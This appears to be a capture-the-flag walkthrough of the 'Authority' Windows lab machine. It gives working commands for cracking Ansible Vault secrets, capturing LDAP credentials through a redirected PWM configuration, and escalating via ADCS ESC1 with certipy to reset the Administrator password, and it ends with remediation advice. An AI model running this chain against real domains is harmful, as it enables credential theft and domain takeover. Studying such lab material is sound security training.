


|Property|Value|
|---|---|
|**OS**|Windows|
|**Difficulty**|Medium|
|**Release Date**|2023-07-15|
|**State**|Retired|
|**IP**|10.129.229.56|
|**Techniques**|SMB enumeration, Ansible Vault cracking, forced LDAP authentication, ADCS ESC1|
|**Tags**|#ad #windows #privesc #adcs|

---

## Summary

Authority is a medium Windows machine built around Active Directory. An SMB share exposes an Ansible project used to deploy PWM, a self-service password manager, including a config file with three Ansible Vault-encrypted secrets. The vault passwords are cracked with `john`, recovering the PWM admin password. Logging into PWM's configuration editor as admin, the LDAP connection settings are pointed at an attacker-controlled host, and clicking "Test LDAP profile" forces the server to send its LDAP bind credentials in cleartext, which are captured with Responder. Those credentials (`svc_ldap`) grant WinRM access and the user flag. `svc_ldap` can enroll in a misconfigured certificate template (`CorpVPN`) vulnerable to ESC1, and because any user can create new computer accounts, a certificate is requested on behalf of a newly-created machine account that specifies `administrator` as the certificate subject. Since Kerberos PKINIT isn't usable directly, the certificate is instead used to open an authenticated LDAP shell as `administrator`, which is used to reset the Administrator password and complete the domain compromise.

---

## Enumeration

### Nmap Scan

```
sudo nmap -sV -sC 10.129.229.56 --open
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-10 09:01 EDT
Nmap scan report for 10.129.229.56
Host is up (0.028s latency).
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, ...)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8443/tcp open  ssl/http      Apache Tomcat
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The standard AD service set is present (DNS, Kerberos, LDAP, SMB, RPC, WinRM). Port **8443** stands out as unusual for a domain controller.

```
echo '10.129.229.56 authority.htb' | sudo tee -a /etc/hosts
```

### PWM enumeration on port 8443

Port 8443 hosts **PWM**, an open-source self-service password manager that integrates with Active Directory/LDAP. The instance is running in **open configuration mode**, meaning the configuration editor can be reached without first authenticating to an LDAP directory.

 


If LDAP credentials can be found some other way, the config editor is a valuable target because it controls how PWM talks to the domain's LDAP server.

### SMB Enumeration

Null-session share listing reveals two non-default shares, `Department Shares` and `Development`:

```
smbclient -N -L \\authority.htb

Sharename         Type      Comment
---------         ----      -------
ADMIN$            Disk      Remote Admin
C$                Disk      Default share
Department Shares Disk
Development       Disk
IPC$              IPC       Remote IPC
NETLOGON          Disk      Logon server share
SYSVOL            Disk      Logon server share
```

`Department Shares` denies access, but `Development` is readable anonymously:

```
smbclient -N \\authority.htb\Development
smb: \> cd Automation\Ansible
smb: \Automation\Ansible\> ls
  ADCS
  LDAP
  PWM
  SHARE
```

The `PWM` folder contains an Ansible role used to deploy the PWM service, including a config file with encrypted secrets.

---

## Foothold

### Ansible Vault Secrets

`defaults/main.yml` inside the PWM role contains three values encrypted with **Ansible Vault**:

```
pwm_admin_login:    !vault | $ANSIBLE_VAULT;1.1;AES256 ...
pwm_admin_password: !vault | $ANSIBLE_VAULT;1.1;AES256 ...
ldap_admin_password: !vault | $ANSIBLE_VAULT;1.1;AES256 ...
```

Ansible Vault encrypts data with a single passphrase using PBKDF2-SHA256, which `john` can attack directly once the blob is saved to a file and converted with `ansible2john` (or, as here, cracked as-is with the `ansible` format).

### Cracking the Vault Password

Each secret is saved to its own file and cracked with `john`:

```
john admin_pass.hash --wordlist=/usr/share/wordlists/rockyou.txt
!@#$%^&*         (admin_pass.txt)
```

The same password (`!@#$%^&*`) cracks all three vaults, since they all share one vault passphrase. The secrets are then decrypted:

```
ansible-vault decrypt admin_login.txt --vault-password-file=<(echo '!@#$%^&*') --output=-
svc_pwm

ansible-vault decrypt admin_pass.txt --vault-password-file=<(echo '!@#$%^&*') --output=-
pWm_@dm!N_!23

ansible-vault decrypt ldap.txt --vault-password-file=<(echo '!@#$%^&*') --output=-
DevT3st@123
```

Credentials recovered: `svc_pwm:pWm_@dm!N_!23`
The credentials are PWM application's own admin login.

### Forced LDAP Authentication via PWM Config Editor

Logging into `https://authority.htb:8443/pwm/private/config/editor` with the recovered credentials grants access to PWM's **Configuration Editor**. Under `LDAP → LDAP Directories → default → Connection`, the **LDAP URLs** setting controls where PWM sends LDAP binds.

 

Since PWM needs to authenticate to LDAP itself (using its configured LDAP Proxy credentials) in order to validate the connection, pointing this URL at an attacker-controlled host and clicking **"Test LDAP profile"** forces the server to send an LDAP bind to that host, and because the proxy account's credentials are sent in the clear to whatever server PWM thinks is the real LDAP directory, capturing that traffic discloses them.

### Exploitation

The LDAP URL is changed to the attacker's IP, and Responder is started to catch the resulting bind:

```
sudo responder -I tun0
```

Clicking **"Test LDAP profile"** in the editor triggers the connection:



```
[LDAP] Cleartext Client   : 10.129.229.56
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

Credentials recovered: `svc_ldap:lDaP_1n_th3_cle4r!`

```
nxc ldap authority.htb -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
[+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
```

BloodHound confirms `svc_ldap` is a member of **Remote Management Users**, which grants WinRM access by default.


---

## User Flag

```
evil-winrm -i authority.htb -u svc_ldap -p lDaP_1n_th3_cle4r!
```

```
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> type user.txt
52ad251332b3ed1c2fcfdcf015888a08
```

---

## Privilege Escalation

### Enumeration — ADCS

A `C:\Certs\LDAPs.pfx` certificate is found on the host but turns out to be a dead end. The real path forward is Active Directory Certificate Services. `certipy-ad` is used to enumerate certificate templates with `svc_ldap`'s credentials:

```
certipy-ad find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -vulnerable -stdout
```

```
Certificate Templates
  Template Name              : CorpVPN
  Enrollee Supplies Subject  : True
  Certificate Name Flag      : EnrolleeSuppliesSubject
  Extended Key Usage         : Client Authentication, ...
  Enrollment Rights          : AUTHORITY.HTB\Domain Computers
  [!] Vulnerabilities
    ESC1 : Enrollee supplies subject and template allows client authentication.
```

### ESC1 — Certificate Template Misconfiguration

The `CorpVPN` template has two settings that combine into a privilege escalation primitive:

1. **Enrollee Supplies Subject** — the requester, not the CA, decides whose identity (UPN/SAN) the issued certificate represents.
2. **Client Authentication EKU** — the resulting certificate can be used to authenticate as that identity via Kerberos PKINIT/Schannel.

Since **Domain Computers** holds enrollment rights on the template, and any authenticated user can create new machine accounts (default `ms-DS-MachineAccountQuota`), a newly-created computer account can request a certificate that names `administrator` as its subject — effectively impersonating the domain admin.

### Exploitation

A new machine account is created:

```
impacket-addcomputer -computer-name 'PWN$' -computer-pass 'Password123!' \
  -dc-ip 10.129.229.56 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'

[*] Successfully added machine account PWN$ with password Password123!.
```

A certificate is requested from the `CorpVPN` template as `PWN$`, supplying `administrator`'s UPN and SID as the subject:

```
certipy-ad req \
  -u 'PWN$@authority.htb' -p 'Password123!' \
  -dc-ip 10.129.229.56 -target authority.htb \
  -ca 'AUTHORITY-CA' -template 'CorpVPN' \
  -upn 'administrator@authority.htb' \
  -sid 'S-1-5-21-622327497-3269355298-2248959698-500'

[*] Got certificate with UPN 'administrator@authority.htb'
[*] Saving certificate and private key to 'administrator.pfx'
```

### Authenticating with the Certificate

A direct Kerberos authentication (`certipy-ad auth`) fails, since the domain controller's KDC doesn't support the PKINIT padata type requested:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.229.56
[-] KDC_ERR_PADATA_TYPE_NOSUPP (KDC has no support for padata type)
```

As a fallback, `certipy-ad` can authenticate over **LDAPS using Schannel** (certificate-based bind) instead of Kerberos, dropping into an interactive LDAP shell as `administrator`:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.229.56 -ldap-shell
```

```
[*] Authenticated to '10.129.229.56' as: 'u:HTB\Administrator'
Type help for list of commands

# change_password administrator "Password123!"
Got User DN: CN=Administrator,CN=Users,DC=authority,DC=htb
Password changed successfully!
```

With the Administrator password now known, a privileged WinRM session is opened directly.

---

## Root Flag

```
evil-winrm -i authority.htb -u 'Administrator' -p 'Password123!'
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e59958e37b3976514d904d4e4973eefa
```

---

## Remediation

- **Secrets on an anonymously-readable SMB share:** Ansible Vault-encrypted files should never live on a share reachable without authentication. Restrict share permissions and move deployment secrets to a dedicated secrets manager.
- **Weak Ansible Vault passphrase:** `!@#$%^&*` is trivially present in common wordlists. Use a long, random, unique vault password, and rotate it if the repository is ever exposed.
- **PWM left in "open configuration" mode:** PWM's configuration editor should require LDAP authentication before any settings (including the LDAP connection target) can be changed. Restrict the config editor to localhost/admin networks only.
- **Forced authentication via editable LDAP target:** Any service that lets an authenticated operator redirect its own outbound LDAP/SMB/HTTP connections can be abused to capture that service's credentials. Validate or pin the LDAP endpoint, and prefer Kerberos over simple binds so a captured credential isn't immediately reusable.
- **ESC1 — misconfigured certificate template:** Disable "Enrollee Supplies Subject" on templates that grant Client Authentication EKU, and restrict enrollment rights on `CorpVPN` away from `Domain Computers`. Audit all templates regularly with `certipy-ad find -vulnerable`.
- **`ms-DS-MachineAccountQuota`:** A default quota greater than 0 lets any authenticated user create machine accounts, which is a prerequisite for several AD attack chains (as seen here). Set it to 0 unless explicitly required.

---

## References

- [PWM — Password Self Service](https://github.com/pwm-project/pwm)
- [Ansible Vault Documentation](https://docs.ansible.com/ansible/latest/vault_guide/index.html)
- [Certipy — ADCS Enumeration & Abuse](https://github.com/ly4k/Certipy)
- [SpecterOps — Certified Pre-Owned (ESC1-ESC8)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)